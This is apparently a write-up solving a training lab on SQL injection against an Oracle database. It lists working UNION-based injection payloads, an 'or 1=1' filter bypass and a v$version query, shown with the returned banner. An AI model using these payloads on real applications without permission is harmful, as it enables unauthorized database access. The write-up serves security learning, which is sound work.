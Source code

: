 # SQL Injection Attack: Querying the Database Type and Version on Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

### **Key Consideration: Querying in Oracle**

In Oracle databases, every `SELECT` statement must specify a table to query from. If your `UNION SELECT` attack does not reference a table, you must include the `FROM` keyword followed by a valid table name. Oracle provides a built-in table called `dual` that can be used for this purpose. For example:
```sql
UNION SELECT 'abc' FROM dual
```

---

### **Steps to Perform the Attack**

#### **Step 1: Analyze the Query Structure**
By injecting the payload:
```
/filter?category=Gifts'--
```
The application likely executes a query like:
```sql
SELECT description, content 
FROM posts 
WHERE category = 'Gifts';
```
This query:
- Returns two columns: `description` and `content`.

#### **Step 2: Determine the Number of Columns**
To find the number of columns in the original query, inject:
```
/filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual--
```
If no errors occur, the query has two columns.

#### **Step 3: Extract Database Version**
Oracle databases store version information in tables like `v$version` and `v$instance`. To retrieve the version string:
1. Use the `v$version` table:
   ```sql
   SELECT banner FROM v$version;
   ```
2. Inject the payload:
   ```
   /filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
   ```

#### **Step 4: Handle Potential Errors**
Using the `v$instance` table might result in an error:
```
SELECT version FROM v$instance;
```
Avoid this if the server rejects queries against `v$instance`.

---

### **Valid Payloads**

#### **Initial Test Payloads**:
- Display 4 items in "Gifts" category:
  ```
  /filter?category=Gifts'--
  ```
- Display all items using a bypass:
  ```
  /filter?category=Gifts'+or+1=1--
  ```

#### **Determine Column Count**:
- Use:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual--
  ```

#### **Retrieve Database Version**:
- Use `v$version`:
  ```
  /filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
  ```

---

### **References**

- [Examining the Database Using SQL Injection](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

### **Illustrations**

#### **Initial Display (Description and Content)**:
![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/1.png)

#### **Validating Column Count**:
![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/2.png)

#### **Retrieving Database Version**:
Using the payload:
```
/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version--
```

The query returns the database version:
```
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```
